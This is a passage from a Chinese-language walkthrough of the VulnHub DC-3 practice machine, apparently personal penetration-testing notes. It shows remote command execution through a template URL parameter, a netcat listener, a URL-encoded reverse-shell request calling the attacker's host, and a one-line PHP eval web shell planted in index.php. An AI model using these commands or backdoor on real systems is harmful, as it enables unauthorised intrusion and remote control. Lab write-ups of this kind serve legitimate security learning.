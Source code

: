 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/10.png)

尝试访问模板预览 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=whoami`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/11.png)

ok，命令成功执行，下面直接准备回弹 shell

kali 开启监听
```bash
nc -lvp 4444
```

访问 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=nc%20-nv%20192.168.141.134%204444%20-e%20/bin/bash`

等待了半天,没弹回来,什么鬼,换个回弹方法试试,回弹方法见 [后渗透](../../../笔记/RedTeam/后渗透/后渗透.md#Linux) Linux 下回弹 shell 部分

注: 这里试了半天,用了很多方法都没有回弹成功,只好暂时另辟蹊径了

到 index.php 里加个一句话把
```php
<?php eval($_POST[1]);?>
```
